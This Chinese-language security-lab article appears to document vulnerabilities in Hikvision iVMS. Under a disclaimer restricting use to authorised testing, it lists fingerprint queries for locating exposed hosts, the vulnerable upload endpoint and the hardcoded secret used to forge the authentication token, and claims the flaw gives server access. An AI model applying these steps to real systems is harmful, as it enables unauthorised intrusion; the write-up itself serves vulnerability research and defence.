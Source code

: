 #  海康威视常用漏洞集合（近期）

原创 凯撒安全实验室  [ 凯撒安全实验室 ](javascript:void\(0\);)

**凯撒安全实验室** ![]()

微信号 SecueKaiser

功能介绍 Secure
Kaiser安全团队成立于2021年7月，是一个对网安事业充满热忱和奉献精神的团队，团队致力于红蓝对抗、CTF、漏洞挖掘、渗透测试，在众多国家级、省市级CTF比赛中名列前茅。

____

___发表于_

收录于合集

#海康威视 1 个

#凯撒 2 个

#网络安全 4 个

**0x01  阅读须知**

**凯撒安全实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 ****0x02  漏洞利用

海康威视iVMS 综合安防前台任意文件上传

鹰图指纹:

web.body="/views/home/file/installPackage.rar"

web.icon=="3670cbb1369332b296ce44a94b7dd685"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093428.png)

某康威视iVMS某接口存在任意文件上传漏洞 配合正确的token值可直接获取服务器权限

利用条件:存在任意文件上传接口+token值

漏洞路径

/eps/api/resourceOperations/upload

尝试访问接口:

/eps/api/resourceOperations/upload 发现需要token进行鉴权

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093429.png)

token构造：大写

md5(http://url/eps/api/resourceOperations/uploadsecretKeyIbuilding)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093430.png)
